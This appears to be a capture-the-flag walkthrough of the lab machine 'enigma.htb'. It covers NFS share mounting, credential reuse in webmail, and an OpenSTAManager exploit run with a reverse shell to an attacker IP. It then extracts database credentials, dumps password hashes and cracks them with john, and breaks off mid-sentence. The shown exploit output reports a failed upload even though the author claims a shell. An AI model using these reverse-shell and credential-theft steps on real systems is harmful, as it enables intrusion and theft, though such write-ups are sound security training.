nmap scan
nmap -sVC -p- -oA nmapScan -vv <IP>
The results
# Nmap 7.99 scan initiated Tue Oct 13 08:57:57 2026 as: /usr/lib/nmap/nmap -p 22,80,110,111,143,993,2049,33603,43291,45709,48199,53125 -sVC -oN finger_printScan -vv -T3 10.129.72.160
Nmap scan report for 10.129.72.160
Host is up, received echo-reply ttl 63 (0.16s latency).
Scanned at 2026-10-13 08:57:58 EDT for 16s
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN9Ju3bTZsFozwXY1B2KIlEY4BA+RcNM57w4C5EjOw1QegUUyCJoO4TVOKfzy/9kd3WrPEj/FYKT2agja9/PM44=
| 256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH9qI0OvMyp03dAGXR0UPdxw7hjSwMR773Yb9Sne+7vD
80/tcp open http syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://enigma.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
110/tcp open pop3 syn-ack ttl 63 Dovecot pop3d
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Issuer: commonName=enigma
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-18T20:33:33
| Not valid after: 2036-02-16T20:33:33
| MD5: 8361 ca20 2e4e dff6 6e90 1445 7458 9fc3
| SHA-1: 9f91 b6ed 85b4 517c 0421 c62e 167d 5631 daa6 5a40
| SHA-256: 98a8 1f62 b59c 832a 162e 2394 9e41 1e08 46a0 f7c1 529f afcb ea15 eea5 ef52 bb70
| -----BEGIN CERTIFICATE-----
| MIIC7zCCAdegAwIBAgIUDIVPMnvnZ7MqOX9P3XD6FaMUGLYwDQYJKoZIhvcNAQEL
| BQAwETEPMA0GA1UEAwwGZW5pZ21hMB4XDTI2MDIxODIwMzMzM1oXDTM2MDIxNjIw
| MzMzM1owETEPMA0GA1UEAwwGZW5pZ21hMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAkSnxU+24XgWM3KXxLy4mCk7AclfQyAQlcr8Gm7L3E3gdkF74wSZy
| i00pixUHKlKqrPQwSpNqsWMqi1ggBZQzd2jBRKzpQQflMUzI8uoUjkBlaFqKCli5
| cJgyL/WcOylWDTdBXeIyBUBDN1duzVa/BDTV83inPH+Fs5rpesSJ/Jwsv4432dtb
| SGAe6YuR4PIpgI33GvPoW3uSfE/yMGffwRf0RONTcsbsNC8reb3XKqa9eNfrmYb3
| S9/L/3dK04fZRU1gk4vRt0xY60VSgQXJqQwfsTUxcNqwYL0bZ0u5bEfV6ITwNO5F
| DZ11EkqkJCFx6pVgWRmnfC0XNMi5IHW3mwIDAQABoz8wPTAJBgNVHRMEAjAAMBEG
| A1UdEQQKMAiCBmVuaWdtYTAdBgNVHQ4EFgQUHA8z2wPX5Qj2TV6SafL8f2LRoDsw
| DQYJKoZIhvcNAQELBQADggEBADr3VEq/+YzDltVRbBvjGeCCm2A2+5nAniEJE/oA
| CkQDVHgYrMH/7L0z0kocq0e54Mk+iRRPKjP4bF4FhG2syeaE2o1aqH6C3GIoBvRZ
| 79XCkgxf5XDlECId1en+KS+iX2ssSmFWEU7l9+OnIRY1QA91OekD2OznIfAeXjaw
| O4SWzae1MrGM0venQ1RugTWa9JoL6G2BUtqIGDyw3QRxmx3HKStMtfHqdq2vzFjA
| LsK4A5j7mMDujaq55Nsc4/Su0ShQKPW3A1X7C1Y9c492g9Z0R5GL17CrmYJIVPX2
| +LC3TWgrRUQ6i5qZ7/9jU198FGNUlRGQi304f+XlxhVqTHI=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: TOP CAPA SASL AUTH-RESP-CODE UIDL STLS PIPELINING RESP-CODES
111/tcp open rpcbind syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100003 3,4 2049/tcp nfs
| 100003 3,4 2049/tcp6 nfs
| 100005 1,2,3 37951/udp6 mountd
| 100005 1,2,3 53089/tcp6 mountd
| 100005 2,3 52326/udp mountd
| 100005 2,3 53125/tcp mountd
| 100021 1,3,4 33927/tcp6 nlockmgr
| 100021 1,3,4 36603/tcp nlockmgr
| 100021 1,3,4 41887/udp6 nlockmgr
| 100021 1,3,4 43488/udp nlockmgr
| 100024 1 40043/tcp6 status
| 100024 1 48199/tcp status
| 100024 1 49940/udp status
| 100024 1 50016/udp6 status
| 100227 3 2049/tcp nfs_acl
|_ 100227 3 2049/tcp6 nfs_acl
143/tcp open imap syn-ack ttl 63 Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Issuer: commonName=enigma
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-18T20:33:33
| Not valid after: 2036-02-16T20:33:33
| MD5: 8361 ca20 2e4e dff6 6e90 1445 7458 9fc3
| SHA-1: 9f91 b6ed 85b4 517c 0421 c62e 167d 5631 daa6 5a40
| SHA-256: 98a8 1f62 b59c 832a 162e 2394 9e41 1e08 46a0 f7c1 529f afcb ea15 eea5 ef52 bb70
| -----BEGIN CERTIFICATE-----
| MIIC7zCCAdegAwIBAgIUDIVPMnvnZ7MqOX9P3XD6FaMUGLYwDQYJKoZIhvcNAQEL
| BQAwETEPMA0GA1UEAwwGZW5pZ21hMB4XDTI2MDIxODIwMzMzM1oXDTM2MDIxNjIw
| MzMzM1owETEPMA0GA1UEAwwGZW5pZ21hMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAkSnxU+24XgWM3KXxLy4mCk7AclfQyAQlcr8Gm7L3E3gdkF74wSZy
| i00pixUHKlKqrPQwSpNqsWMqi1ggBZQzd2jBRKzpQQflMUzI8uoUjkBlaFqKCli5
| cJgyL/WcOylWDTdBXeIyBUBDN1duzVa/BDTV83inPH+Fs5rpesSJ/Jwsv4432dtb
| SGAe6YuR4PIpgI33GvPoW3uSfE/yMGffwRf0RONTcsbsNC8reb3XKqa9eNfrmYb3
| S9/L/3dK04fZRU1gk4vRt0xY60VSgQXJqQwfsTUxcNqwYL0bZ0u5bEfV6ITwNO5F
| DZ11EkqkJCFx6pVgWRmnfC0XNMi5IHW3mwIDAQABoz8wPTAJBgNVHRMEAjAAMBEG
| A1UdEQQKMAiCBmVuaWdtYTAdBgNVHQ4EFgQUHA8z2wPX5Qj2TV6SafL8f2LRoDsw
| DQYJKoZIhvcNAQELBQADggEBADr3VEq/+YzDltVRbBvjGeCCm2A2+5nAniEJE/oA
| CkQDVHgYrMH/7L0z0kocq0e54Mk+iRRPKjP4bF4FhG2syeaE2o1aqH6C3GIoBvRZ
| 79XCkgxf5XDlECId1en+KS+iX2ssSmFWEU7l9+OnIRY1QA91OekD2OznIfAeXjaw
| O4SWzae1MrGM0venQ1RugTWa9JoL6G2BUtqIGDyw3QRxmx3HKStMtfHqdq2vzFjA
| LsK4A5j7mMDujaq55Nsc4/Su0ShQKPW3A1X7C1Y9c492g9Z0R5GL17CrmYJIVPX2
| +LC3TWgrRUQ6i5qZ7/9jU198FGNUlRGQi304f+XlxhVqTHI=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: post-login IMAP4rev1 OK more LOGIN-REFERRALS listed capabilities STARTTLS Pre-login have ENABLE ID LOGINDISABLEDA0001 IDLE LITERAL+ SASL-IR
993/tcp open ssl/imap syn-ack ttl 63 Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Issuer: commonName=enigma
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-18T20:33:33
| Not valid after: 2036-02-16T20:33:33
| MD5: 8361 ca20 2e4e dff6 6e90 1445 7458 9fc3
| SHA-1: 9f91 b6ed 85b4 517c 0421 c62e 167d 5631 daa6 5a40
| SHA-256: 98a8 1f62 b59c 832a 162e 2394 9e41 1e08 46a0 f7c1 529f afcb ea15 eea5 ef52 bb70
| -----BEGIN CERTIFICATE-----
| MIIC7zCCAdegAwIBAgIUDIVPMnvnZ7MqOX9P3XD6FaMUGLYwDQYJKoZIhvcNAQEL
| BQAwETEPMA0GA1UEAwwGZW5pZ21hMB4XDTI2MDIxODIwMzMzM1oXDTM2MDIxNjIw
| MzMzM1owETEPMA0GA1UEAwwGZW5pZ21hMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAkSnxU+24XgWM3KXxLy4mCk7AclfQyAQlcr8Gm7L3E3gdkF74wSZy
| i00pixUHKlKqrPQwSpNqsWMqi1ggBZQzd2jBRKzpQQflMUzI8uoUjkBlaFqKCli5
| cJgyL/WcOylWDTdBXeIyBUBDN1duzVa/BDTV83inPH+Fs5rpesSJ/Jwsv4432dtb
| SGAe6YuR4PIpgI33GvPoW3uSfE/yMGffwRf0RONTcsbsNC8reb3XKqa9eNfrmYb3
| S9/L/3dK04fZRU1gk4vRt0xY60VSgQXJqQwfsTUxcNqwYL0bZ0u5bEfV6ITwNO5F
| DZ11EkqkJCFx6pVgWRmnfC0XNMi5IHW3mwIDAQABoz8wPTAJBgNVHRMEAjAAMBEG
| A1UdEQQKMAiCBmVuaWdtYTAdBgNVHQ4EFgQUHA8z2wPX5Qj2TV6SafL8f2LRoDsw
| DQYJKoZIhvcNAQELBQADggEBADr3VEq/+YzDltVRbBvjGeCCm2A2+5nAniEJE/oA
| CkQDVHgYrMH/7L0z0kocq0e54Mk+iRRPKjP4bF4FhG2syeaE2o1aqH6C3GIoBvRZ
| 79XCkgxf5XDlECId1en+KS+iX2ssSmFWEU7l9+OnIRY1QA91OekD2OznIfAeXjaw
| O4SWzae1MrGM0venQ1RugTWa9JoL6G2BUtqIGDyw3QRxmx3HKStMtfHqdq2vzFjA
| LsK4A5j7mMDujaq55Nsc4/Su0ShQKPW3A1X7C1Y9c492g9Z0R5GL17CrmYJIVPX2
| +LC3TWgrRUQ6i5qZ7/9jU198FGNUlRGQi304f+XlxhVqTHI=
|_-----END CERTIFICATE-----
|_imap-capabilities: post-login AUTH=PLAINA0001 OK IMAP4rev1 capabilities listed ID Pre-login have ENABLE LOGIN-REFERRALS more IDLE LITERAL+ SASL-IR
2049/tcp open nfs_acl syn-ack ttl 63 3 (RPC #100227)
33603/tcp closed unknown reset ttl 63
43291/tcp open mountd syn-ack ttl 63 1-3 (RPC #100005)
45709/tcp open mountd syn-ack ttl 63 1-3 (RPC #100005)
48199/tcp open status syn-ack ttl 63 1 (RPC #100024)
53125/tcp open mountd syn-ack ttl 63 2-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 13 08:58:14 2026 -- 1 IP address (1 host up) scanned in 17.66 seconds
So we see some interesting ports but usually whenever i see NFS, i first check if i can mount the share
showmount -e 10.129.72.160
Export list for 10.129.72.160:
/srv/nfs/onboarding *
so we find the /srv/nfs/onboarding share to be mounted , so lets mount it and inspect it
sudo mount -t nfs 10.129.72.160:/srv/nfs/onboarding ./onboarding_share -o nolock
After we mount the share, we find a PDF with the Name New_Employee_Access

so looks like we found a new subdomain which we can add to our/etc/hosts file
So then accessing the http://mail001.enigma.htb , we get directed to a RoundCube Webmail ,

so with the credskevin:Enigma2024! we can authenicate and first thing i like to check whatever web interface i log in is the version, which can be found by clicking the ?About

after looking for quite some time no exploits could be used, but we notice a welcoming mail fromsarah

so maybe lets check for password reusesarah:Enigma2024!
and as we log in, we find this in the dashboard

which revealed a new subdomainsupport_001.enigma.htb with credentials admin:Ne3s4rtars78s. We notice its running a OpenSTAManager app which its version is 2.9.8

a quick google search is that this is vulnerable to CVE-2026-38751 which is essentiallyOpenSTAManager versions 2.10 and earlier contain an arbitrary file upload vulnerability in the module update functionality (modules/aggiornamenti/upload_modules.php). and also vulnerable to 1. CVE-2025-69212
So essentially OpenSTAManager's module update/import feature (/modules/aggiornamenti/) accepts a client-supplied ZIP archive and extracts it into the web-accessible modules/ directory, validating only that the archive contains a well-formed module manifest — it never restricts the file types inside. So an authenticated user can plant a .php file in the docroot and get code execution
You can even validate this by reading and understanding the source code of the github repo https://github.com/devcode-it/openstamanager/blob/master/modules/aggiornamenti/upload_modules.php
which essentially summarizes like so
78: /index.php (login page)
79: /index.php?op=login (auth POST)
112: /ajax.php?a=check_module_updates_settings (enables module updates)
148: /modules/aggiornamenti/upload_modules.php (the upload sink)
159: /modules/shell/shell.php (where the zip lands)
So the idea is we can create a zip file which contains a MODULE and then the php file which will contain our shell.php
Essentially why we need to create the MODULE
if (!setting('Attiva aggiornamenti')) { exit(tr('Accesso negato')); } // (1) the toggle gate
...
$extraction_dir = Zip::extract($_FILES['blob']['tmp_name']);
$finder = Symfony\Component\Finder\Finder::create()->files()->in($extraction_dir);
$files_module = $finder->name('MODULE'); // (2) IT LOOKS FOR A FILE NAMED "MODULE"
foreach ($files_module as $file) {
$info = Util\Ini::readFile($file->getRealPath()); // (3) MODULE is an INI
if (basename($file->getRealPath()) == 'MODULE') { $directory='modules'; $table='zz_modules'; }
copyr(dirname($file->getRealPath()), base_dir().'/'.$directory.'/'.$info['directory']); // (4) copy MODULE's folder → modules/<directory>
$dbo->insert($table, [ ... 'directory'=>$info['directory'], 'name'=>$info['name'],
'options'=>$info['options'], 'version'=>$info['version'],
'compatibility'=>$info['compatibility'], 'icon'=>$info['icon'], 'parent'=>... ]); // (5) required keys
}
so in order to exploit this, we can actually use this PoC
python3 exploit.py -t http://support_001.enigma.htb -u admin -p 'Ne3s4rtars78s' --reverse-shell 10.10.16.102 4444
OpenSTAManager <= 2.9.8 | OS Command Injection 11:13 [6/46023]
P7M File Processing — decodeP7M() exec() sink
CVE-2025-69212 Proof of Concept
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Authenticating as admin...
[+] Authenticated successfully.
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
══════════════════════════════════════════════════════════════
║ PLUGIN DETECTION
══════════════════════════════════════════════════════════════
[*] Scanning for P7M vulnerable plugin...
[*] Found 84 module(s).
[+] Found 2 candidate(s).
├─ Module ID: 14
├─ Plugin ID: 21
└─ Upload endpoint: save → http://support_001.enigma.htb/actions.php
══════════════════════════════════════════════════════════════
══════════════════════════════════════════════════════════════
║ REVERSE SHELL
══════════════════════════════════════════════════════════════
├─ Method: bash
└─ Target: 10.10.16.102:4444
[!] Start listener: nc -lvnp 4444
[?] Press Enter when ready... [*] Delivering payload...
[-] Upload failed.
══════════════════════════════════════════════════════════════
─── Stats: 86 requests in 73.5s ───

so we land as the userwww-data , so now lets run linpeas , and we found that there is a mysql running , and then searching through the files in the /html/openstamanager we found a config.inc.php which essentially contains the passwords for the local mysql database

brollin:Fri3nds@9099
so we can access the mysql database like so
mysql -u brollin -p'Fri3nds@9099'
then we did show tables; and we found a table called zz_users , so

we see 2 users in the database, one which is admin which was exactly what we got from theRoundCube , and the user harris, so lets extract the hash and try to crack it. We could select its column like so
select password from zz_users;

so from there we could now try to crack the second hash using johnjohn harris_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

haris:bestfriends
a typical way to know whether u can log in with this user or not is inspecting the /etc/passwd and if the user has usr/sbin/nologin then u can't log in with a shell as this user directly

i tried logging into haris using ssh, but u can't unless u generate a public key with his password, so easier is to just change to him through the revshell with penelope

then circling back on the linpeas results, i found a service running locally on port 1337
and then scrolling down further , I notice 